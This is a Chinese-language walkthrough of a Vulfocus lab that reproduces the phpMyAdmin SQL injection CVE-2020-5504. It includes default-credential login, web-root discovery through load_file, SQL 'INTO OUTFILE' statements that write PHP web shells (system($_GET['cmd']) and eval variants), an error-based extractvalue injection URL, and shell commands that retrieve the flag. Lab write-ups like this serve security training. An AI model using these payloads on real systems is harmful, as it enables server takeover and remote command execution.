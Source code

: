 # 原创
：  【漏洞复现-phpmyadmin-SQL注入】vulfocus/phpmyadmin-cve_2020_5504

# 【漏洞复现-phpmyadmin-SQL注入】vulfocus/phpmyadmin-cve_2020_5504

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.4、解题：](#2.4%E3%80%81%E8%A7%A3%E9%A2%98%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:64697


（看见这种页面，一般人就直接放弃了）





> 
<h3>1.2、知识:</h3>
1、&lt;pre&gt;
pre 元素可定义预格式化的文本。被包围在 pre 元素中的文本通常会保留空格和换行符。而文本也会呈现为等宽字体。
&lt;pre&gt; 标签的一个常见应用就是用来表示计算机的源代码
2、写马
select into outfile "/path/file"
（知道log路径，也可以写入log中，如select '&lt;?php eval($_GET[g]);?&gt;'）



> 
<h3>1.3、描述：</h3>
基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等
（mysql是不允许外网连接的，有第三方工具就方便多了）


---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
URL后面加上/pma/index.php
（进入到了登陆页面）
提示的
账号密码root/123456


 执行SQL语句<img alt="" height="904" src="https://img-blog.csdnimg.cn/7e4fea51e4f74fabbc19d9a7e70d671a.png" width="1200"/>
输入
select @@datadir
（查询数据库的路径）

select @@basedir
（查询MYSQL数据库的安装路径）

 网站路径就凭经验和爆破了
SELECT load_file('/var/www/html/pma/index.php')
返回数据包4kb，一看就有东西，就对了
所以网站绝对路径为/var/www/html/pma

<hr/>
写马
select '&lt;?php echo \'&lt;pre&gt;\';system($_GET[\'cmd\']); echo \'&lt;/pre&gt;\'; ?&gt;' INTO OUTFILE '/var/www/html/pma/shell.php'

<hr/>
其他思路：
在sql执行环境下也有其他方法传参（但太过于复杂，token还需要截取点击go后的数据包来填）
http://ip:port/pma/server_privileges.php?**ajax_request**=true&amp;**validate_username**=1&amp;**username**=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))–+db=&amp;**token=**&amp;**viewing_mode=**server
而且要一级一级往下去查询
（所以能写马，就写马）


---


> 
<h3>2.4、解题：</h3>

使用写入的参数cmd传入值 
刚开始用的cat读取文件（一想才知道flag是文件名）

http://ip:port/pma/shell.php?cmd=ls /tmp


